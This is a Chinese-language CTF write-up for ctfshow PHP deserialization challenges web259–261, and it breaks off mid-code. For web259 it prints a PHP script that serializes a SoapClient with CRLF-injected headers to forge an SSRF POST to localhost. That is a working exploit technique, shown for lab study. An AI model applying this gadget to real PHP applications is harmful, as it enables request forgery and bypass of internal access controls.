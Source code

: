username和password随意

![image-20230806151558519](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230806151558519.png)

### [web259]

![image-20230806153545668](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230806153545668.png)

```
<?php

highlight_file(__FILE__);


$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();



Notice: Undefined index: vip in /var/www/html/index.php on line 6

Fatal error: Uncaught Error: Call to a member function getFlag() on bool in /var/www/html/index.php:8 Stack trace: #0 {main} thrown in /var/www/html/index.php on line 8
```

这个类中有个__call魔术方法（当调用不存在的方法时触发），会调用SoapClient类的构造方法。

php的原生类SoapClient https://www.php.net/manual/en/class.soapclient.php

php执行：

```
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^X-Forwarded-For:127.0.0.1,127.0.0.1^^Content-Type: application/x-www-form-urlencoded'.'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'=> "ssrf"));
$a = serialize($b);
$a = str_replace('^^',"\r\n",$a);
echo urlencode($a);
?>
```

### [web260]

本题考点比较单一，传入含有不间断`ctfshow_i_love_36D`就可以

### [web261]

```php
<?php
 
highlight_file(__FILE__);
 
class ctfshowvip{
    public $username;
    public $password;
    public $code;
 
    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
    public function __wakeup(){
        if($this->username!='' || $this->password!=''){
```